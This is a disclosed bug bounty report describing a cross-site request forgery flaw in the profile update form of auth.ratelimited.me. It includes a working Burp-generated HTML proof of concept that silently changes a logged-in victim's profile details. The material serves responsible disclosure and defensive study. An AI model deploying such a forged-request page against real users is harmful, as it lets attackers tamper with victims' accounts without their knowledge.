 # Cross Site Request Forgery in auth in https://auth.ratelimited.me/

## Report Details
- **Report ID**: 473798
- **URL**: https://hackerone.com/reports/473798
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-01-01T16:18:37.770Z
- **Disclosed**: 2020-02-21T11:23:43.124Z

## Reporter
- **Username**: miguel_santareno
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ratelimited

## Vulnerability Information
Hi there i found a vulnerable post that an attacker can execute csrf into the victim.
Steps to reproduce:

1º login into your account and with burp on intercept the request off update profile.
csrf1.jpg

2º Send the post request to the generator csrf poc and alter the details.

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://auth.ratelimited.me/profile/details/update" method="POST">
      <input type="hidden" name="&#95;method" value="PUT" />
      <input type="hidden" name="&#95;token" value="gTAHVqBk8TI4QlPBHku3gec3Aly0oD2vITwuEvot" />
      <input type="hidden" name="first&#95;name" value="teste csrf" />
      <input type="hidden" name="last&#95;name" value="teste csrf" />
      <input type="hidden" name="birthday" value="2008&#45;12&#45;28" />
      <input type="hidden" name="phone" value="" />
      <input type="hidden" name="address" value="teste csrf" />
      <input type="hidden" name="country&#95;id" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

3º save the html and execute into the browser the html and you will see the details off the victim changing.
teste.html

## Impact

attacker can manipulate victim information.
CSRF token should be implemented and in case off implementation it should be random

## Attachments
- teste.html
